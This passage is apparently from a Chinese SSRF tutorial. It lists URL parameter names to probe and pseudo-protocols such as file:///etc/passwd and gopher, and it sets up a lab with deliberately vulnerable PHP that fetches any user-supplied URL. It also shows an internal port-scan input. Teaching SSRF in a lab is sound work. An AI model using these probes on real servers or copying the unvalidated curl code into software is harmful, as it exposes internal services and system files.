6）未公开的API实现及调用URL的功能：有些网站通过api获取远程地址xml文件来加载内容。

### 2.4.2. URL关键字挖掘

```
share、wap、url、link、src、source、target、u、display、sourceURl、imageURL、domain
```

## 2.5. SSRF伪协议

### 2.5.1. 伪协议分类

```
file:/// 从文件系统中获取文件内容，如，file:///etc/passwd
dict:// 字典服务器协议，访问字典资源，如，dict:///ip:6739/info：
sftp:// SSH文件传输协议或安全文件传输协议
ldap:// 轻量级目录访问协议
tftp:// 简单文件传输协议
gopher:// 分布式文档传递服务，可使用gopherus生成payload
```

当然伪协议不止这些，可以自行百度搜索，下面就举一些例子进行相关的测试，并且看看效果。

### 2.5.2. 本地环境搭建

靶机：192.168.10.150

攻击者：127.0.0.1

```
php代码：
<meta http-equiv="Content-Type:text/html;charset=utf-8" />
<form action="" method="post">想翻译的网站:<input type="text" name="url"><br>
<input type="Submit" name="Submit" value="Cheak!">
</form>
<?php
$_POST['url'];
$ch =curl_init();
curl_setopt($ch, CURLOPT_URL,$_POST['url']);
curl_setopt($ch, CURLOPT_HEADER,0);
curl_exec($ch);
curl_close($ch);
?>
```

### 2.5.3. 探测端口是否开放

#### 2.5.3.1. 案例

探测内网其他服务器IP开放那些端口。

```
输入内容：http://192.168.10.150:3306
```
